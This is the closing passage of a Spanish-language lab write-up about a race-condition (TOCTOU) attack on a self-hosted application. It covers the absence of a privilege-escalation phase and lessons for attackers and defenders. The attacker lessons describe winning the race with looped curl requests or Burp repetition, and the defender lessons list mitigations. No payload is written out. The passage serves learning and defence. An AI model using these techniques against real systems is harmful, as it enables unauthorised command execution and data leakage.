

---

## Escalada de privilegios

No hubo fase de escalada de privilegios independiente: al tratarse de un laboratorio desplegado en mi propia máquina, el objetivo terminaba en la obtención de ejecución de comandos como el usuario que ejecuta el servicio (Nivel 1) y en la demostración del impacto de la condición de carrera sobre la confidencialidad/integridad de los datos servidos (Nivel 2).

---

## Lecciones aprendidas

### Desde el punto de vista del atacante

- Cuando una aplicación separa la escritura de un recurso compartido de su validación o lectura en operaciones asíncronas distintas, existe una ventana de tiempo (TOCTOU — *time-of-check to time-of-use*) explotable repitiendo peticiones en bucle.
- Automatizar el envío de peticiones concurrentes (bucles `while true` con `curl`, o repetición manual en Burp) aumenta drásticamente la probabilidad de ganar la carrera frente a un único intento.
- Una validación por expresión regular que se ejecuta *después* de haber lanzado ya la ejecución del contenido no aporta ninguna garantía de seguridad real si ambas operaciones no están sincronizadas.
- Un recurso compartido en disco (un mismo fichero) usado para servir respuestas a múltiples usuarios/peticiones sin aislamiento puede filtrar datos entre sesiones no relacionadas.

### Desde el punto de vista del defensor

- Evitar escribir entrada de usuario directamente en scripts que luego se ejecutan; si es imprescindible, sanear estrictamente (lista blanca) *antes* de cualquier escritura en disco, nunca después.
- Sustituir el patrón de validar-después-de-ejecutar por validar-antes-de-escribir, idealmente de forma síncrona y atómica (p. ej. validar el valor en memoria y solo entonces escribir el fichero).
- Usar ficheros temporales únicos por petición/sesión (nombres aleatorios o con UUID) en lugar de un fichero compartido global, evitando así interferencias entre usuarios concurrentes.
- Aplicar bloqueos (locks) o colas de procesamiento cuando distintas peticiones deban operar sobre el mismo recurso, para garantizar exclusión mutua.
- Limitar la tasa de peticiones (*rate limiting*) a rutas sensibles reduce la ventana práctica de explotación de una condición de carrera.
